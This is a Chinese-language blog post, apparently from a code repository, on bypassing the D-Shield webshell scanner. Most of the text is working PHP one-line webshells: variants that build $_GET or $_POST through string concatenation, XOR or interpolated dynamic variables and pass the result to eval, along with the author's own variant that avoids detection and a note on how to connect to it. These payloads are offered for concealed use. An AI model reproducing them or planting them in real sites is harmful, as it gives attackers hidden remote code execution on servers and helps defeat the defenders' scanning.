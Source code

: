 ### 前言

最近看到安全客一位老哥写了一篇关于bypass d盾一句话木马查杀的技巧，正好最近自己也想研究研究bypass 各大webshell查杀工具，于是就借着老哥的技巧自己拓展了一下。也算是有点小成果，特此记录一下。

### 0x01

在研究的过程中，相对于其他的webshell查杀工具，d盾的规则还是挺严格的，感觉d盾的策略侧重于关注eval,assert这些危险的语言结构或者函数，只要是发现危险函数中出现变量，不管它有没有识别出这个变量的值，先给你报警再说。。。宁可错杀一千也不放过一个，简直太狠了（而且d盾不像安全狗那样注重于正则匹配各种可能的危险调用，就死盯着这些危险函数的参数，所以有的文章说以安全狗为代表的一些查杀工具关注的是“形”，比较容易绕过，只要用各种动态函数调用、异或、无字符一句话、回调函数啥的就可以绕过，而d盾则是关注的危险函数的参数，一旦参数他不能百分百确定没问题，那就报警）

```php
<?php
$a = 123;
eval($a);
>
```

![](images/d.png)

就这么个东西都要一级警告...

我不太熟悉d盾的自动查杀，不知道会不会查杀一级警告的文件，我想应该不会这么残忍，其实把一个一句话弄成一级告警还是挺简单的，例如下面这个：

```php
<?php
$a = "_GE";
$b = "T";
$c = $a.$b;
$d = $$c['a'];
eval($d);
```

![](images/shell2.png)

当然了，一级是不能满足我们的需要的，我们需要木马彻底隐藏，在测试过程中了解到，d盾在发现危险函数，并且这个函数的参数是一个变量的话，那么基本就会告警，但是如果我们输入的危险函数的参数**看起来**是一个常量呢？安全客那位老哥给出的一种策略是：

```php
<?php
    $a = "~+d()"^"!{+{}";
    $b = ${$a}[a];
    eval("n".$b);
?>
```

其中用到了异或构造`_GET`,然后关键处用一个字符拼接了我们从get传来的数据，从而让d盾误以为eval的参数是一个字符串，实现了绕过。那有没有其他方法呢？我这里发现了一个更牛掰的：

```php
<?php
$x = "_POST";
$a = "${${'_POST'}['b']}";
eval("{$$a['a']}");
?>
```

我这个一句话，主要是利用了php中动态变量解析（不知道是不是这么叫），就是双引号是可以包裹的字符串，如果其中有变量，那么是会自动进行解析的，当然，除此之外我还稍稍对敏感的_POST稍微坐了一下处理，绕了几个圈～d盾查杀效果如下：


![](images/shell_mine.png)

通过post传b=x&a=xxxx即可连接shell.

![](images/res.png)


### 0x02

在本次学习过程中，了解到php 7.2不能动态调用assert函数，也就是下面这种形式不能用了：

```php
$a = 'assert'
$$a('phpinfo();');
```

也就导致了以前很多的免杀一句话在php7.2版本就直接报错了，而且eval不是函数，只是一种语言结构，更是不支持动态函数调用了。所以，未来的d盾免杀，我们只能在eval参数上下功夫了（当然，可能还有一些特殊函数没有提到），当然，对于`_GET`以及`_POST`的隐藏还是必须的工序～


### 0x03

安全客老哥的文章：

https://www.anquanke.com/post/id/193787